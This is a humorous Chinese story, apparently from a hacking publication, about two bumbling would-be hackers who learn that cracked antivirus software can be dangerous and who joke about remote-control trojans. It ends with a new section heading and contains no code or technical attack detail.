王小鸟：“哦，是这样啊。大汉黑客大哥，我听说现在网上病毒很多。那要怎么样才能保证不怕电脑中病毒啊？”

王大汉二话不说，打开了王小鸟的电脑，一阵忙活后大叫一声“OK”。王小鸟赶忙看他的电脑。哇，电脑里总共装了十一个反病毒软件和九个防火墙。王小鸟惊呼：“大汉大哥你真行！”

王大汉：“这电脑啊，就像一座城，反病毒软件和九个防火墙就像是卫士，这样洛伊木马要进来屠城，我们就得要卫士的保护。卫士当然是越多越好了。”

王小鸟陷入沉思，大感此话在理。

王大汉接着说：“还有啊，这招兵买马都是要钱的。可我们招的卫士都是不用钱的：哈哈，我们用的都是破解版，免序列号安装，还可以升级呢。”正当王大汉得意之时，各反病毒软件都报告发现病毒，防火墙也互相检测对方，询问是否允许该程序运行。最后搞得连系统都运行不了。所用的反病毒软件当中也被捆绑了黑客程序，不一会儿，就被别人远程控制了，不断跳出的窗口显示有黑客的挑衅。王小鸟束手无策。慌忙之中，王大汉拔掉了电脑电源开关。沉默了好久，王大汉终于憋出了一句：“只有重装了。”

王小鸟很是无奈：“唉，那我收藏的那些经典图片也只有再去下载了。”

在无数次的探索之后，王小鸟的电脑重新装好了系统。王小鸟问道：“大汉黑客大哥，这回怎么办？”

王大汉叹了口气：“养兵千日，用兵一时。可这些兵没有补给，没有津贴。当初招他们时又没写合同，所以这帮家伙临阵逃脱。唉！看来也只有买正版杀毒软件了，我看卡巴斯基好些。”

王小鸟：“什么？大巴司机？我怎么没听说过。一个月多少？”王小鸟的表情很是疑惑。

王大汉听了很气愤：“你爸不是开大巴的吗？叫他来就可以了，还不用花钱！”

王小鸟听出了话里的意思，很不好意思。最终两人买了正版的反病毒软件。

两天后，王小鸟来找王大汉，说是要系统地学习黑客技术。王大汉初为人师，很是激动，对他说：“学几句书中的兵法和控制黑客知识，肯定最想了解远程控制技术。先和你说这样一个例子吧。那晚，夜黑风高，伸手不见五指，街上的小偷都回去睡觉了，我独自守在电脑前，夜已经很深了，我却依旧精神抖擞，知道为什么吗？嘿嘿，我就要远程控制一台弱口令主机了。可……可……最关键的时候，我被别人控制了。”

王大汉显得很无奈也很气愤，王小鸟很惊讶：“这么说还有电脑技术比你更厉害的高手了？”

王大汉：“TMD，被供电局的人控制了。唉，就在那个最光辉、最伟大的时刻——断电了。”

王小鸟也很替王大汉惋惜，他们问道：“那要怎么样才能做到真正的远程控制呢？”

王大汉说：“首先我们要把我们用木头做的乌木马送进对方的电脑里。”王小鸟打断了王大汉的话：“要把木马放进别人的电脑里，那不是要撬开别人的电脑才行吗？”

王大汉失望，长叹短叹的。接着王小鸟又说了一句话，让王大汉彻底失望。他说：“那我去拿我爸的钉子来。”

N 天后，王小鸟终于知道什么叫木马。

一天，王小鸟和王大汉说起他表妹想买台电脑，可不知道买品牌机好还是买组装机好。王大汉极力推荐他表哥店里的组装机，大吹特吹。其中有一点就是：“买组装机可以用来学习黑客知识而不用心疼。”反正机子是表妹的，王小鸟对这点也很赞同。

王小鸟终于要把一直很想问王大汉的一个问题掏出来了。他问：“大汉黑客大哥，你是看了什么书还是上了黑客技术的课才这么厉害的啊？”

王大汉沉思良久，说：“我师父是看《黑客 X 档案》后成为黑客高手的。可我昨天才看的《黑客 X 档案》，所以还谈不上高手。你也看看《黑客 X 档案》吧，让我们一起成长。”

王小鸟说还是找个师父教比看书要方便。

两年后，王大汉是《黑客 X 档案》的技术顾问，而王小鸟是报刊亭卖《黑客 X 档案》的，闲着也看看《黑客 X 档案》。结果王大汉的电脑被王小鸟入侵了。王小鸟的文章还登上了 X 档案。呵呵。

有一句话：寇可往，我亦可往。当然不是说他们是寇，意思是说他们可以如此，我们当然也可以啦。还等什么，好好学习黑客技术吧。安全是一场永远不会结束的战争。有了一身好武艺，行走江湖就豪放潇洒了。

## 一个人的战争

